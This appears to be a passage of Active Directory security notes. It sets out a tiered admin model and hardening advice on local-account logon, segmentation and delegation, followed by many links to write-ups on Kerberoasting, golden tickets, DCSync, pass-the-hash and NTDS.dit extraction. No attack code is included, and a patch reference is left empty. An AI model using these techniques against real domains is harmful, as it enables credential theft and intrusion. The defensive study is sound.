- Tier 0 - privileged access across the enterprise
- Tier 1 - access to resources with business value
-
Tier 2 - access to resources with business value, that are hosted on user workstations and devices (Ex: Help Desk)
 
- KB2871997 to disallow local account logon across the network
- https://technet.microsoft.com/library/security/2871997
- Microsoft has definitely raised the bar: accounts that are members of the localgroup “Administrators” are no longer able to execute code with WMI or PSEXEC, use schtasks or at, or even browse the open shares on the target machine. Oh, except (as pwnag3 reports and our experiences confirm) the RID 500 built-in Administrator account, even if it’s renamed.
- Limit workstation to workstation communication
- Implement network segmentation
- Never run services with domain-admin privileged accounts on workstations (avoid dumping from LSASS)
- Install patch (), so that LSASS will not store plain text password
- Done't use unconstrained delegation (this stores user's delegated TGS in LSASS). Only use constrained delegation.
- Disable delegation for admin accounts (Check: Account is sensitive and cannot be delegated).
- Detect based on delegation events.
- Active Directory Core Security Principles & Best Practices: https://ernw.de/download/AD_Summit_2018/01_AD_Summit_CoreSecPrinciples_fk_hw_v.1.2_signed.pdf
- Active Directory Kill Chain Attack & Defense: https://github.com/infosecn1nja/AD-Attack-Defense
- Microsoft-Blue-Forest: https://github.com/rootsecdev/Microsoft-Blue-Forest
- Welcome to building your first domain controller!: https://github.com/rootsecdev/Microsoft-Blue-Forest/blob/master/FirstDomainControllerInstall.md
- Pwn and Defend - Active Directory Domain Enumeration: https://www.youtube.com/watch?v=YxeXfHkHAUI&feature=youtu.be
- Implementing Least Privilege Model: https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/implementing-least-privilege-administrative-models
- Securing Privileged Access - Microsoft
- PS Paper - Best Practices of Securing Active Directory
NetCease.ps1to prevent session enumeration on AD computers
References¶
- https://adsecurity.org/
- Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory: https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- Escalating privileges with ACLs in Active Directory: https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/
- https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges
- https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting
- https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets
- https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/
- https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
- https://blog.stealthbits.com/performing-domain-reconnaissance-using-powershell
- https://blog.stealthbits.com/local-admin-mapping-bloodhound
- https://blog.stealthbits.com/extracting-password-hashes-from-the-ntds-dit-file/
- https://blog.stealthbits.com/passing-the-hash-with-mimikatz
- https://blog.stealthbits.com/what-is-dcsync-an-introduction/
- https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
- https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/
- https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
- https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/
- https://blog.ropnop.com/using-credentials-to-own-windows-boxes/
- https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/
- https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/
- https://0xdarkvortex.dev/index.php/2018/08/26/active-directory-penetration-dojo-setup-of-ad-penetration-labpart-2/
- https://0xdarkvortex.dev/index.php/2018/10/29/active-directory-penetration-dojo-creation-of-forest-trustpart-3/
- https://www.attackdebris.com/?p=470
- https://blog.didierstevens.com/2016/08/12/mimikatz-golden-ticket-dcsync/
- http://www.harmj0y.net/blog/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/
- http://passing-the-hash.blogspot.com/
- http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html
- https://room362.com/post/2017/reset-ad-user-password-with-linux/
- https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a
- TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory: https://www.youtube.com/watch?v=JEIR5oGCwdg
- Azure AD Connect for Red Teamers: https://blog.xpnsec.com/azuread-connect-for-redteam/
- https://github.com/hausec/PowerZure
- How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller: https://adsecurity.org/?p=451
- Attack Methods for Gaining Domain Admin Rights in Active Directory: https://adsecurity.org/?p=2362
- Mimikatz DCSync Usage, Exploitation, and Detection: https://adsecurity.org/?p=1729
- How Attackers Dump Active Directory Database Credentials: https://adsecurity.org/?p=2398